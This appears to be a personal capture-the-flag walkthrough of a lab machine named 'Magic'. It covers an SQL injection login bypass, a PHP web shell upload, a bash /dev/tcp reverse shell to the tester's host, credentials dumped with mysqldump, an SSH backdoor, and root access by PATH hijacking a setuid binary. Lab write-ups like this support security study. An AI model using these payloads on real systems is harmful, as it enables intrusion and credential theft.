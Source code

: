 # Magic - 10.10.10.185

Created: July 16, 2021 9:12 AM

nmap:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled.png)

useful pages after loging:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%201.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%201.png)

login page:

[http://10.10.10.185/login.php](http://10.10.10.185/login.php)

when entering  - admin' the website doesnt return invalid login creds.

yet, if we enter 2  '  its return invalid login:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%202.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%202.png)

trying 

' or 1=1 -- - 

as user and login in successfully. 

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%203.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%203.png)

uploading legit png file names "black.png"

viewing it:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%204.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%204.png)

uploading php_system:

[]()

checking connection:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%205.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%205.png)

had some trouble due to url encode:

bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.20/4443+0>%261'

shell:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%206.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%206.png)

creds from db file:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%207.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%207.png)

theseus :: iamkingtheseus

ssh not works

two weird connections:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%208.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%208.png)

dont have mysql command but we have:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%209.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%209.png)

query:

mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2010.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2010.png)

creds:

admin :: Th3s3usW4sK1ng

that works for the website login and su command:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2011.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2011.png)

creating ssh backdoor for quick access:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2012.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2012.png)

weird binary found:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2013.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2013.png)

run ltrace and strace. nothing there.

another one:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2014.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2014.png)

run as root:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2015.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2015.png)

uses fdisk command without full path:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2016.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2016.png)

the setuid doesn't has secure path concept - it goes each dir on the $PATH and searches for the bin.

another one (cat):

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2017.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2017.png)

another one without proper path:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2018.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2018.png)

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2019.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2019.png)

even better:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2020.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2020.png)

shell:

![Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2021.png](Magic%20-%2010%2010%2010%20185%20a328b6d275f445f7a0e73ea60097420d/Untitled%2021.png)